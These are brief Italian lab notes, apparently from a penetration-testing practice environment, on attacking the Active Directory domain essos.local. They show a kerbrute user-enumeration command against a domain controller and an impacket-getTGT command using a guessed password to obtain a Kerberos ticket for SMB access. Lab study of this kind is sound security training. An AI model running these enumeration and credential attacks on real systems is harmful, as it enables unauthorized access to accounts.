 ### **SETUP**
Modifico il file /etc/krb5.conf per setuppare i realm![[Pasted image 20230810124518.png]]

### **ENUM USER**
Trovo username appartenenti alle varie foreste (lista fatta usando gli schemi )
```bash
kerbrute userenum -d essos.local --dc 192.168.56.12 user.txt
```
![[Pasted image 20230810125834.png]]
![[Pasted image 20230810154111.png]]
![[Pasted image 20230810154242.png]]





### **TGT BruteForce**
Non ho ben capito come venga ottenuta la password 'horse', force facendo un bruteforce è possibile
```
impacket-getTGT 'essos.local/khal.drogo:horse'
```
![[Pasted image 20230810160139.png]]
e puoi usarlo per connetterti a samba
